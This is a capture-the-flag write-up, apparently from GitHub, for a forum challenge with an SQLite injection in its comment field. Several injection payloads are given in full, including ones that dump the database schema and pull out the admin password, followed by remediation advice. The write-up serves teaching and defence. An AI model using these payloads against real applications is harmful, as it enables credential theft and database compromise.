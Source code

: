 # Share the Ideas

## Description:
We've created a new platform for security enthusiasts to share their ideas. Register an account, log in, and see what others are posting. Can you share an idea that the system wasn't expecting?

## Initial Analysis

### Functionality Description
The website is a simple forum that requires users to register and log in to post comments.

### Identifying Anomalies
After logging in and submitting a comment, it's clear this function is the main point of interaction with the database. When a special character like a single quote (`'`) is inserted into the comment, the website returns an SQL error message. This confirms the existence of an SQL Injection vulnerability. The error message also suggests the backend might be using **SQLite**.

### Vulnerability Hypothesis
The application is vulnerable to SQL Injection in the comment submission feature. User input is not properly sanitized or escaped before being included in an SQL query.

## Exploitation Steps

1.  **Create an Account and Log In:** Register for an account and log in to gain permission to post comments.

2.  **Confirm the Vulnerability:** Submit a comment containing only a single quote: `'`. The site will return an SQL error, confirming the hypothesis.

3.  **Extract SQLite Version:** Use a payload to retrieve the database version.

    **Payload:** `a' || (select sqlite_version());--`

    **Result:** The website displays the SQLite version (e.g., `a3.8.7.1`).
    ![image](https://github.com/user-attachments/assets/1d94dbac-c181-4322-a9c7-665a30752502)


4.  **List Table Names:** Use a payload to get the schema of tables in the database from the `sqlite_master` table.

    **Payload:** `a' || (select sql from sqlite_master);--`

    **Result:** The website displays the `CREATE TABLE` statement for the `xde43_users` table, revealing its structure and column names.
    ![image](https://github.com/user-attachments/assets/eb113e6f-cf67-46d7-84ec-cdc01fa7bb3c)


5.  **Retrieve Admin's Password:** Based on the table structure, construct a payload to extract the password of the user with the `admin` role.

    **Payload:** `a' || (select password from xde43_users where role="admin");--`

    **Result:** The admin's password (which is the flag) is displayed in the comment.
    ![image](https://github.com/user-attachments/assets/1eb061c5-7f5f-4cd2-ab04-7144f78eca6f)

   **Flag:** 245698

## Impact
- **Severe:** An attacker can read the entire database, including sensitive user information (usernames, emails, passwords).
- It can lead to an admin account takeover and full control of the application.

## Remediation
- **Use Prepared Statements (Parameterized Queries):** This is the most effective way to prevent SQL Injection. User input is always treated as data, never as part of the SQL command.
- **Validate and Sanitize Input:** Filter and clean user-provided data to remove malicious characters.
- **Hide Detailed Error Messages:** Configure the server not to display detailed error messages to end-users, as they can reveal information about the system's architecture.
